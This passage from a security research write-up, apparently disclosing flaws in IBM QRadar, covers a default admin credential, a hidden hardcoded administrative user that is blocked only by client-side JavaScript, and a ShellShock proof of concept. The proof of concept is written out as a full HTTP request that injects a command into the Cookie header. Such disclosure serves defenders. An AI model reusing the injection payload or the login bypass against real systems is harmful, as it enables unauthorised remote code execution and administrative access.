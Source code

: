 Biggest issue for us that the user `admin` holds the password `initial`.


### Web Admin Interface Research

#### Hardcoded root User

When you thought things cannot really get worse…
Exclaiming to my friend that the web interface is usually guarded and amongst those, the authentication features are heavily scrutinised so finding anything in there would be highly unlikely, i could not have been more wrong.
A simple ‘View Source' of the login page returned this:

```html
<script>
[...]

function submitForm()
{
	if ( document.forms[0].j_username.value.toLowerCase() == "configservices" )
		return false;
	else
		document.forms[0].submit();
}

[...]
</script>
```

At this point i seriously started pondering the existence of a honeypot. So having a look at the configuration file for the users on the SIEM at `/opt/qradar/conf/users.conf` and `/opt/qradar/conf/configservices_users.conf`, which can be acquired by the previous issue we found the user.  This removed the fear for a honeypot as no one in thier right mind will create a honeypot user with a password. Some password cracking for the hash there yielded that the plain text of the ‘military grade encryption' was set to `HIDDEN`. Commenting out the JavaScript "blockings" in the Web UI we logged in just fine. This user is an Administrative user on the UI and is hidden from other operators or Administrators.

**The password is not really HIDDEN but since we deem this as extremly dangerous as the user is hardcoded and does not appear in any Admin UI and there seems to be no way of changing it except for in that particular file we have chosen for now to omit the actual password.**

#### Exploit Reuse - ShellShock

Reaching far back to the past to when we discovered the vulnerability of the system to ShellShock we were determined to check whether this can really be exploited remotely or "just" a locally exploitable vulnerability.

**PoC III - ShellShock Code Execution**

```
POST /console/config/config.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:40.0) Gecko/20100101 Firefox/40.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://192.168.1.1/console/do/qradar/rightadminconsole?appName=qradar&pageId=allTabs
Cookie: JSESSIONID=60[trimmed1BF; SEC=3e[trimmed1a6; () { :;}; echo COKKIE=SHELLY ; echo ; ping -c 5 MY_IP
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 101

configarea=remoteservices&viewconf=staging%2Fglobalconfig&stoken=89[trimmed]18
```
